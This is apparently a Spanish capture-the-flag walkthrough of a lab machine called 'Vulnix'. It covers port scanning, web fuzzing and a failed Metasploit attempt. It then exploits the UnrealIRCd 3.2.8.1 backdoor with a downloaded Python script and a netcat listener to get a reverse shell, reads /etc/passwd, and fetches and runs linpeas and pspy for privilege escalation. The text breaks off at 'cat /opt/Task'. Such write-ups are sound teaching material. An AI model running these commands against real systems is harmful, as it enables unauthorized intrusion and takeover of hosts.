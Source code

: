 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

## reconocimiento en la red

![[Vulnix - Real - Reconocimiento.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnix - Real - Nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Vulnix - Real - Apache 2 Debian default website.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[Vulnix - Real - Goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 instantamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[Vulnix - Real - Msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo segun lo encontrado

![[Vulnix - Real - Search Unreal.png]]


Use 2
![[Vulnix - Real - Use2 msfconsole.png]]

Options
![[Vulnix - Real - Options.png]]

set rhost = IP:
![[Vulnix - Real - Set rhost.png]]

set rport  6667

![[Vulnix - Real - Set report 6667.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[Vulnix - Real - Use exploit irc unreal.png]]

show payloads:
![[Vulnix - Real - show payloads.png]]

set payload reverse:
![[Vulnix - Real - Set pauload reverse.png]]

set lhosts = local IP:
![[Vulnix - Real - Set lhost.png]]


exploit
![[Vulnix - Real - Exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[Vulnix - Real - Descargar exploit del repo de github.png]]

Editamos el script en python para poner nuestra IP y el puerto con el que vamos a hacer el reverse proxy:
![[Vulnix - Real - Script original.png]]


modificamos segun nuestras preferencias:
![[Vulnix - Real - Config parameter.png]]

en este caso nuestra IP local y el puerto por el cual nos vamos a poner a la escucha que va a ser el 6666

ahora nos ponemos a la escucha en la terminal con  el comando:
nc -lvp 6666

![[Vulnix - Real - Reverse shell en escucha.png]]

y una vez estamos escuchando por el puerto correcto lo que hacemos es ejecutar el scrip de python para conectar por el puerto 6667 y lanzar una reverse shell sobre nuestra IP por el puerto 6666
python3 exploit.py 192.168.1.140 6667 -payload netcat

![[Vulnix - Real - Send exploit.png]]

y en la terminal que estamos a la escucha por el puerto 6666 recibimos la conexión:

![[Vulnix - Real - Connection reverse proxy.png]]

Entramos con el usuario serve
![[Vulnix - Real - Acceso con user serve vulnix real.png]]


intentamos movernos hasta home/serve  para ver si está la flag del usuario
y conseguimos la primera flag del usuario:
![[Vulnix - Real - User server flag.png]]
user server flag: 3b7fb7c1c8737a5c67dc513657e3efb3


Comando id
![[Vulnix - Real - Comando id para ver el usuario.png]]
Con el comando id vemos que el usuario es server 

vemos el passwd en /etc/passwd:
![[Vulnix - Real - Passwd.png]]

server:x:1000:1000:server,,,:/home/server:/bin/bash
aquí vemos que el id de usuario es 1000 e identificador de grupo es 1000 --> Todos los que comienzan con 1000 en LINUX son usuarios

ahora vamos a hacer tratamiento de la TTI:


Tratamiento de la TTI
script /dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
export TERM = xterm-256color
export SHELL = bash
stty -a

Descargamos linpeas:

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

le damos permisos de ejecucion al fichero .sh
chmod +x linpeas.sh
ejecutamos linpeas
./linpeas.sh

![[Vulnix - Real - Linpeas.png]]

Pero no encontramos nada interesante

Usamos la herramient pspy:
https://github.com/DominicBreuker/pspy
url de descarga:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

le damos permisos de ejecucion
chmod +x pspy64

lo ejecutamos
./pspy64
![[Vulnix - Real - Pspy64.png]]

nos encontramos un fichero que se ejecuta como admisnitrador en /opt/Task
vemos ese fichero:
cat /opt/Task

